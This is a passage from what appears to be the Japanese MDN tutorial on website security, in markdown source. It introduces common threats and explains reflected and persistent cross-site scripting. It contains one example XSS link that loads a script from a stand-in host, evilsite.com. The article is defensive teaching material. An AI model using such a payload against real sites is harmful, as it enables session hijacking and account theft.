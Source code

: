 ```yaml
---
title: Web サイトのセキュリティ
slug: Learn/Server-side/First_steps/Website_security
---
```


{{LearnSidebar}}{{PreviousMenu("Learn/Server-side/First_steps/Web_frameworks", "Learn/Server-side/First_steps")}}

ウェブサイトのセキュリティでは、ウェブサイトのデザインと使用方法のあらゆる面で警戒が必要です。この入門記事だけではウェブサイトのセキュリティの第一人者にはなれませんが、脅威がどこから発生するのか、そして最も一般的な攻撃に対してウェブアプリケーションを強化するために何ができるのかを理解するのに役立ちます。

| 前提条件: | 基本的なコンピューターリテラシー                                                                                                   |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------- |
| 目標:     | ウェブアプリケーションのセキュリティに対する最も一般的な脅威と、サイトがハッキングされるリスクを減らすためにできることを理解する。 |

## ウェブサイトのセキュリティとは?

インターネットは危険な場所です。定期的に、サービス拒否攻撃によってウェブサイトが利用できなくなったり、自分のホームページに変更された (多くの場合有害な) 情報を表示したりすることがあります。その他の注目を集める事例では、何百万ものパスワード、メールアドレス、およびクレジットカードの詳細がパブリックドメインに漏洩し、ウェブサイトの利用者を個人的な当惑と経済的リスクの両方にさらしています。

ウェブサイトのセキュリティの目的は、これらの (または任意の) 種類の攻撃を防ぐことです。ウェブサイトセキュリティのより正式な定義は、_許可されていないアクセス、使用、改変、破壊、または混乱からウェブサイトを保護することです_。

効果的なウェブサイトセキュリティでは、ウェブアプリケーション、Web サーバーの設定、パスワードの作成と更新に関するポリシー、およびクライアント側のコードなど、ウェブサイト全体にわたる設計作業が必要です。すべて不吉に聞こえるかもしれませんが、サーバーサイド Web フレームワークを使用している場合、多くの一般的な攻撃に対して「デフォルトで」堅牢でよく考え抜かれた防御メカニズムがほぼ確実に有効になります。HTTPS を有効にするなど、他の攻撃は Web サーバーの設定を通じて軽減できます。最後に、明らかな間違いを犯したかどうかを確認するのに役立つ、公開されている脆弱性スキャナツールがあります。

この記事の残りの部分では、いくつかの一般的な脅威と、サイトを保護するために実行できる簡単な手順の詳細について説明します。

> **メモ:** これは導入トピックであり、ウェブサイトのセキュリティについて考え始めるのに役立つように設計されていますが、網羅的なものではありません。

## ウェブサイトのセキュリティ上の脅威

このセクションでは、最も一般的なウェブサイトの脅威をいくつか紹介し、それらがどのように軽減されるのかを示します。お読みになったところでは、ウェブアプリケーションがブラウザーから来るデータについて信頼しているか、または十分に妄想的ではない場合に、脅威が最も効果的であることに注意してください。

### クロスサイトスクリプティング (XSS)

XSS は、攻撃者がウェブサイト*を通じて*他のユーザーのブラウザーにクライアントサイドのスクリプトを挿入することを可能にする一連の攻撃を表すために使用される用語です。注入されたコードはサイトからブラウザーに送信されるため、コードは*信頼されており*、ユーザーのサイト認証 Cookie を攻撃者に送信するなどのことが可能です。攻撃者が Cookie を持っていると、あたかもユーザーであるかのようにサイトにログインし、クレジットカードの詳細へのアクセス、連絡先の詳細の表示、パスワードの変更など、ユーザーができることなら何でもできます。

> **メモ:** XSS 脆弱性は、他のどの種類のセキュリティの脅威よりも歴史的に一般的です。

XSS 脆弱性は、サイトが挿入されたスクリプトをブラウザーに返す方法に基づいて、*反映型*と*永続型*に分けられます。

- サーバーに渡されたユーザーコンテンツが*ただちに*返され、*変更されず*にブラウザー側で表示される場合に、XSS の脆弱性が反映されます。元のユーザーコンテンツのスクリプトはすべて、新しいページが読み込まれたときに実行されます。たとえば、検索語が URL パラメータとしてエンコードされ、これらの語が結果と一緒に表示されるサイト検索機能を考えてみましょう。攻撃者は悪意のあるスクリプトをパラメータとして含む検索リンク (例: `http://mysite.com?q=beer<script%20src="http://evilsite.com/tricky.js"></script>`) を作成し、それを別のユーザーにメールで送信することができます。ターゲットユーザーがこの「関連リンク」をクリックすると、検索結果が表示されたときにスクリプトが実行されます。すでに説明したように、これにより攻撃者はターゲットユーザーとしてサイトに入るために必要なすべての情報が得られ、ユーザーとして購入したり、連絡先情報を共有したりする可能性があります。
- 悪意のあるスクリプトがウェブサイトに保存され、その後、他のユーザーが知らないうちに実行されるように変更されないまま再表示されると、_永続的な_ XSS の脆弱性が発生します。たとえば、変更されていない HTML を含むコメントを受け付けるディスカッション掲示板は、攻撃者からの悪意のあるスクリプトが埋め込まれる可能性があります。コメントが表示されると、スクリプトが実行され、ユーザーのアカウントにアクセスするために必要な情報が攻撃者に送信される可能性があります。この種の攻撃は非常に有名で強力です。攻撃者は被害者と直接関わりさえしないかもしれないからです。
